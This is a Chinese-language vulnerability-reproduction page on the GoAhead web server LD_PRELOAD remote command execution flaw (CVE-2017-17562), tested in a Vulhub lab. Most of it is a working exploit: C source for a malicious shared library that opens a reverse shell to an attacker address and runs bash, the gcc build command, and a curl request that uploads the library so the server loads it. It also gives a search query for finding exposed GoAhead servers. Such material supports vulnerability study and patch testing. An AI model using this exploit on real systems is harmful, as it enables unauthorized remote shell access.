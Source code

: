 # Goahead LD_PRELOAD 远程命令执行漏洞 CVE-2017-17562

## 漏洞描述

GoAhead支持运行ASP、Javascript和标准的CGI程序，这个漏洞出自CGI程序

该漏洞是利用服务器初始化CGI时，使用了HTTP请求参数，使用特殊的参数名LD_PRELOAD劫持libc库，进而实现远程命令执行

## 漏洞影响

<a-checkbox checked>GoAhead Web Server < 3.6.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="GoAhead"</a-checkbox></br>

## 漏洞复现

使用Vulnhub下的靶场进行搭建

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500-20220706105534293.png)

编译恶意 so 文件

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

发送 evil.so 恶意文件

```php
curl -X POST --data-binary @evil.so http://xxx.xxx.xxx.xxx:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657073148130-d7efbdbc-8e97-49a7-bb81-fec751d8ef47.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657073168888-7499c581-7c81-4e43-ab46-87a35adb37b6.png)